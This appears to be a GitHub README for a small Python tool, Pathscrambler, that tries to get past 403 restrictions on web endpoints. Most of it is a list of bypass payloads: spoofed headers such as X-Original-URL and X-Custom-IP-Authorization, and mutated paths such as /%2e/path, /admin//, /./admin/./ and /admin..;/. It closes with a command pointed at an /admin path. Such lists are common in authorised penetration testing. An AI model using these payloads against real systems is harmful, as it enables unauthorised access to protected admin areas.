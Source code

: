 # Pathscrambler

Simple Tool written in python to bypass endpoint restriction currenty supports :

These payloads are directly pulled from twitter. Thanks to the community :)

--------------------------------------------------
```
GET /admin HTTP/1.1
Host: example.com     =>    403 Forbidden


GET /anything HTTP/1.1
Host: example.com
X-original-url: /admin =>   200 OK

GET /anything HTTP/1.1
Host: example.com
X-Custom-IP-Authorization:127.0.0.1

------------------------------------------------


https://www.example.com/path =>  403 Forbidden

https://www.example.com/%2e/path   =>  200 OK

------------------------------------------------

https://www.example.com/admin       => 403

https://www.example.com/.           => 200

https://www.example/admin//         => 200

https://www.example/./admin/./      => 200

------------------------------------------------

https://www.example.com/admin/      => 302

https://www.example.com/admin..;/   => 200
------------------------------------------------
```


Command Example :

python3 pathscramblerpy -u "https://www.example/admin" where /admin returns 403
